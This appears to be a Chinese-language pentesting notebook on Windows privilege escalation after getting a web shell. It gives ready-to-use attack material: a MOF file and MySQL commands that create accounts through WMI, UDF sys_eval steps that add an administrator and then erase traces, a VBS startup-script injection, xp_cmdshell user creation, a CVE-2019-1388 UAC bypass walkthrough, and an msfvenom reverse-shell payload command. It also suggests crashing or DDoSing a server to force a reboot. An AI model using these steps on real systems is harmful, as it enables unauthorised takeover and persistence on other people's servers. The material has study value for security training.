





#### windows提权分类

1.系统漏洞提权(Linux、Windows)内核提权  
3.第三方软件/服务提权  
2.数据库提权  
4.系统配置错误提权

#### windows提权概述

提权，顾名思义就是提升权限，当我们getshell一个网站之后，大部分情况下我们的权限是非常低的,这时就需要利用提权，让原本的低权限（如只允许列目录）→高权限（拥有修改文件的能力）权限提升后，对接下来的渗透有很大帮助。  
windows:

user-->System  
user-->Administrator

Linux:  
user-->Root

#### windows提权流程

获得目标机shll=>查看补丁记录=>寻找对应EXP=>使用Exp提权

#### 1.windows系统漏洞提权

1. 查看这台主机还有哪些漏洞没有修复

    方法一：在cmd中输入systeminfo查看补丁安装情况

    ​​

    方法二：通过命令查询出哪些补丁没有安装
2. 查找补丁对应的漏洞号 使用在线查询工具

    [http://blog.neargle.com/win-powerup-exp-index/#](http://blog.neargle.com/win-powerup-exp-index/#)

    [http://tools.sbbbb.cn/tiquan/](http://tools.sbbbb.cn/tiquan/)

    [http://bypass.tidesec.com/exp/](http://bypass.tidesec.com/exp/)
3. 查找对应提权exp

    可在搜索引擎查找

    github查找  [github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

    windows中提权exp的格式为

    ​​
4. 配合msf进行提权

#### 2.windows 数据库提权

##### mysql-mof提权步骤

1. 在可写目录中上传mof文件

    nullevt.mof   文件

    ```bash
    #pragma namespace("\\\\.\\root\\subscription")
    instance of __EventFilter as $EventFilter
    {
    EventNamespace = "Root\\Cimv2";
    Name = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
    };
    instance of ActiveScriptEventConsumer as $Consumer
    {
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user zhang 123456 /add\")";
    };
    instance of __FilterToConsumerBinding
    {
    Consumer = $Consumer;
    Filter = $EventFilter;
    };
    ```

2. 把.mof脚本移动到指定的目录：c:/windows/system32/wbem/mof/目录下，该目录每5秒执行一次​
3. 执行 load file 及 into dumpfile 把文件导出到正确的位置

    ```bash
    select load_file('c:/phpstudy/www/nullevt.mof')into dumpfile'c:/windows/system32/wbem/mof/nullevt.mof';
    ```

4. 执行成功后，验证mof文件中的cmd命令是否执行

    ​​
5. 同样的方法修改mof文件再重复上次的步骤，可以将用户添加到管理员组

‍

##### mysql-UDF提权

###### UDF提权原理

 <span data-type="text" style="color: var(--b3-font-color8);">UDF(User Defined Function)用户自定义函数,支持用户自定义</span>

通过添加新的函数，<span data-type="text" style="color: var(--b3-font-color8);">对mysqI服务器进行功能扩充，从而创建函数，将MYSQL账号转化为系统system权限</span>

UDF提权是通过root权限导出udf.dll到系统目录下，可以<span data-type="text" style="color: var(--b3-font-color8);">通过udf.dll调用执行cmd</span>

###### 利用UDF提权条件

1. Windows 2000、XP、2003
2. 2. MySQL数据库版本
3. 3.账号具有对MySQL的插入和删除权限
4. 4.可以将udf.d写入到相应目录的权限

    ​​

###### MySQL-UDF提权步骤

1. 收集必要信息

     select version();   select user();    select @@basedir,    //获取数据库版本 //获取数据库用户 //获取数据库安装目录

​​

2. MySQL版本高于5.1，创建导出文件夹 

    /lib/plugin目录本身是不存在的，可以利用NTFS ADS流来创建文件夹 

    ```sql
    select 'xxx' into dumpfile 'MySQL目录\\lib::$INDEX ALLOCATION';
    select 'xxx' into dumpfile 'MySQL目录\\lib\\plugin::$INDEX ALLOCATION';
    ```

    也可以利用webshell直接在mysql安装路径下创建piugin目录
3. 导入 udf.dl 文件

    DLL文件的获取方法:

    在 sqlmap/data/udf/mysq!/ 目录下,

    在Windows目录中有32位和64位dll文件(MySQL的位数，文件夹中的dll文件是通过异或编码的，可以使用sqlmap/extra/cloak.py进行解密

    将dll文件上传到mysql的/Iib/plugin目录下

    ​​
4. 创建自定义函数

    ```bash
    create function sys_eval returns string soname 'udf.dll';  #创建自定义函数  需要创建.dll文件中存在的函数才可以
    select sys_eval("net user youze1 123456 /add");   #创建用户
    select sys_eval("net localgroup administrators youze1 /add"); #提升为管理员权限
    drop function sys_eval;  #清除痕迹
    delete from mysql.func where name="sys_eval";
    ```

​​

##### mysql启动项提权

###### 原理

将一段 VBS脚本导入到<span data-type="text" style="color: var(--b3-font-color8);">开机启动项中</span>，如果管理员重启了服务器，那么就会自动调用该脚本，并执行其中的用户添加 及提权命令

###### 利用条件:

1. 上传到目录必须具备可读写的权限

2.  调用的 cmd 也必须有足够的权限

3.  重启服务器可以利用一些可导致服务器蓝屏的EXP，或者DDoS拒绝服务

###### 步骤

1. 如果可以直接上传到启动项目录就不需要使用数据库

    C:\Documents and Settings\All Users\「开始」菜单\程序\启动 目录存在可读写的权限
2. 进入test数据库，并创建一个新的表:

    create table a(cmd text)  // a表名，字段名cmd，text文本类型
3. 在表中插入数据

    ```sql
    insert into a values("set wshshell=createobject(""wscript.shell"")"); 
    insert into a values("a=wshshell.run(""cmd.exe /c net user icg 123.com /add"" 0)"); 
    insert into a values("b=wshshell.run(""cmd.exe /c net localgroup administrators icg /add"",0)");
    ```

4. 输出表为一个 VBS 的脚本文件 

    select * from a into dumpfile "C:\Documents and Settings\Administrator\「开始」菜单\程序启动\1.vbs"
5. 利用其他手段重启电脑

##### MSSQL xp_cmdshell提权

1. 连接数据库之后
2. 查看相干信息

    ```sql
    --查看当前版本:
    select @@version 
    --判断当前是否为sa:
    select is_srvrolemember('sysadmin') 
    --判断是否有public权限，可以爆破表:
    select is_srvrolemember('public') 
    --判断当前用户写文件、读文件的权限:
    select is_srvrolemember('db_owner')
    ```

3. 查看数据库中是否有 xp_cmdshell 扩展存储插件,返回值为 1则说明该数据库中有插件     MSSQL使用xp_cmdshell

    ```sql
    select count(*) from master.dbo.sysobjects where xtype='x'and name='xp cmdshell';
    ```

4. 开启xp_cmdshell   MSSQL使用xp_cmdshell
5. 执行命令创建用户

    ```sql
    exec master.xp_cmdshell 'net user youze 123456 /add'       -- 添加用户ichungiu,密码123.com 
    exec master.xp_cmdshell ' net localgroup administrators youze /add'       -- 添加ichunqiu到管理员组
    ```

## 3.windows bypass UAC提权

##### 利用CVE-2019-1388实现bypass UAC

原理:

如果在运行一个可执行文件的时候我们<span data-type="text" style="color: var(--b3-font-color8);">触发了 UAC</span>,在点击「展示证书发行者的详细信息」这个链接之后 可以看到证书里的 Issued by 字段,这个字段对应的值就是 OID。证书会解析 OID 的值,可能显示为超链接，但是 Windows 忘记禁用了 OID 处的超链接，这就给了我们提权的可能

步骤

1. 查看是否打补丁  systeminfo

2. 下载EXP:CVE-2019-1388/HHUPD.EXE  这里是开启http服务上传​

    ​

3. 将exp下载到目标机中，并以管理员权限打开HHUPD.EXE,点击显示详细信息​

    ​

4. 点击显示详细信息里的   "显示有关此发布者的证书的信息“

5. 将弹出的网页"另存为”，弹出位置不可用窗口后点击确定

6. 通过在保存网页的文件资源管理器的地址栏输入“C:\windows\system32\cmd.exe”打开cmd  这样才能继承浏览器的SYSTEM权限​

    ​

##### 利用MSF的 bypassuac 模块

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.61.20 lport=6666 -f exe -o tests.exe  #lhostiplport
```

​​

​​

​​

​​

​​

​​

​​

通过一系列的前期渗透测试，已经获得了目标机器的meterpreter shell,当前权限为普通用户权限，可以尝试获取系统的System权限。

​​

## 4.windows错误系统配置提权

...

‍
